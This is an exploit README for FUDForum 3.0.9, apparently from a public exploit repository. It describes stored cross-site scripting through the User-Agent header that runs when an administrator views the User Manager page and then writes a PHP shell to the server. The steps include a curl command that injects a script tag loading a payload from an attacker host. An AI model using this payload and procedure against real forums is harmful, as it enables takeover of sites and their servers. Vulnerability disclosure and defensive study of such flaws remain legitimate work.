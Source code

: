 # FUDforum-XSS-RCE
FUDForum 3.0.9 - XSS / Remote Code Execution

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : TBD

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:
curl -A '<script src="http:attacker.machine/fud.js"></script>' http:target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
